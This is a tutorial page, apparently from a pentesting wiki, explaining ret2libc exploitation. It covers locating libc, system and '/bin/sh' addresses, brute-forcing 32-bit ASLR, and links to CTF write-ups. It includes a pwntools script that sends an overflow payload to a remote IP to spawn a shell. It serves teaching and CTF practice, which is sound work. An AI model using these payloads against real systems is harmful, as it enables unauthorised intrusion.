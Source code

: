 # Ret2lib


## **Basic Information**

The essence of **Ret2Libc** is to redirect the execution flow of a vulnerable program to a function within a shared library (e.g., **system**, **execve**, **strcpy**) instead of executing attacker-supplied shellcode on the stack. The attacker crafts a payload that modifies the return address on the stack to point to the desired library function, while also arranging for any necessary arguments to be correctly set up according to the calling convention.

### **Example Steps (simplified)**

- Get the address of the function to call (e.g. system) and the command to call (e.g. /bin/sh)
- Generate a ROP chain to pass the first argument pointing to the command string and the execution flow to the function

## Finding the addresses

- Supposing that the `libc` used is the one from current machine you can find where it'll be loaded in memory with:

```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
```
If you want to check if the ASLR is changing the address of libc you can do:

```bash
for i in `seq 0 20; do ldd ./<bin> | grep libc; done
```
```
- Knowing the libc used it's also possible to find the offset to the `system` function with:

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
```
- Knowing the libc used it's also possible to find the offset to the string `/bin/sh` function with:

```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
```
### Using gdb-peda / GEF

Knowing the libc used, It's also possible to use Peda or GEF to get address of **system** function, of **exit** function and of the string **`/bin/sh`** :

```bash
p system
p exit
find "/bin/sh"
```
```
### Using /proc/\<PID>/maps

If the process is creating **children** every time you talk with it (network server) try to **read** that file (probably you will need to be root).

Here you can find **exactly where is the libc loaded** inside the process and **where is going to be loaded** for every children of the process.

![[<../../../images/image (853).png>|]]

In this case it is loaded in **0xb75dc000** (This will be the base address of libc)

## Unknown libc

It might be possible that you **don't know the libc the binary is loading** (because it might be located in a server where you don't have any access). In that case you could abuse the vulnerability to **leak some addresses and find which libc** library is being used:

[[rop-leaking-libc-address/]]

And you can find a pwntools template for this in:

[[rop-leaking-libc-address/rop-leaking-libc-template.md]]

### Know libc with 2 offsets

Check the page [[https://libc.blukat.me/|https://libc.blukat.me/]] and use a **couple of addresses** of functions inside the libc to find out the **version used**.

## Bypassing ASLR in 32 bits

These brute-forcing attacks are **only useful for 32bit systems**.

- If the exploit is local, you can try to brute-force the base address of libc (useful for 32bit systems):

```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
```
- If attacking a remote server, you could try to **burte-force the address of the `libc` function `usleep`**, passing as argument 10 (for example). If at some point the **server takes 10s extra to respond**, you found the address of this function.

## One Gadget

Execute a shell just jumping to **one** specific **address** in libc:

[[one-gadget.md]]

## x86 Ret2lib Code Example

In this example ASLR brute-force is integrated in the code and the vulnerable binary is loated in a remote server:

```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
    p = ""
    p += p32(off + 0x0003cb20) #system
    p += "CCCC" #GARBAGE, could be address of exit()
    p += p32(off + 0x001388da) #/bin/sh
    payload = 'A'*0x20010 + p
    c.send(payload)
    c.interactive()
```
```
## x64 Ret2lib Code Example

Check the example from:

[[../]]

## ARM64 Ret2lib Example

In the case of ARM64, the ret instruction jumps to whereber the x30 registry is pointing and not where the stack registry is pointing. So it's a bit more complicated.

Also in ARM64 an instruction does what the instruction does (it's not possible to jump in the middle of instructions and transform them in new ones).

Check the example from:

[[ret2lib-+-printf-leak-arm64.md]]

## Ret-into-printf (or puts)

This allows to **leak information from the process** by calling `printf`/`puts` with some specific data placed as an argument. For example putting the address of `puts` in the GOT into an execution of `puts` will **leak the address of `puts` in memory**.

## Ret2printf

This basically means abusing a **Ret2lib to transform it into a `printf` format strings vulnerability** by using the `ret2lib` to call printf with the values to exploit it (sounds useless but possible):

[[../../format-strings/]]

## Other Examples & references

- [[https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html|https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html]]
  - Ret2lib, given a leak to the address of a function in libc, using one gadget
- [[https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html|https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html]]
  - 64 bit, ASLR enabled but no PIE, the first step is to fill an overflow until the byte 0x00 of the canary to then call puts and leak it. With the canary a ROP gadget is created to call puts to leak the address of puts from the GOT and the a ROP gadget to call `system('/bin/sh')`
- [[https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html|https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html]]
  - 64 bits, ASLR enabled, no canary, stack overflow in main from a child function. ROP gadget to call puts to leak the address of puts from the GOT and then call an one gadget.
- [[https://guyinatuxedo.github.io/08-bof_dynamic/hs19_storytime/index.html|https://guyinatuxedo.github.io/08-bof_dynamic/hs19_storytime/index.html]]
  - 64 bits, no pie, no canary, no relro, nx. Uses write function to leak the address of write (libc) and calls one gadget.
- [[https://guyinatuxedo.github.io/14-ret_2_system/asis17_marymorton/index.html|https://guyinatuxedo.github.io/14-ret_2_system/asis17_marymorton/index.html]]
  - Uses a format string to leak the canary from the stack and a buffer overflow to calle into system (it's in the GOT) with the address of `/bin/sh`.
- [[https://guyinatuxedo.github.io/14-ret_2_system/tu_guestbook/index.html|https://guyinatuxedo.github.io/14-ret_2_system/tu_guestbook/index.html]]
  - 32 bit, no relro, no canary, nx, pie. Abuse a bad indexing to leak addresses of libc and heap from the stack. Abuse the buffer overflow o do a ret2lib calling `system('/bin/sh')` (the heap address is needed to bypass a check).



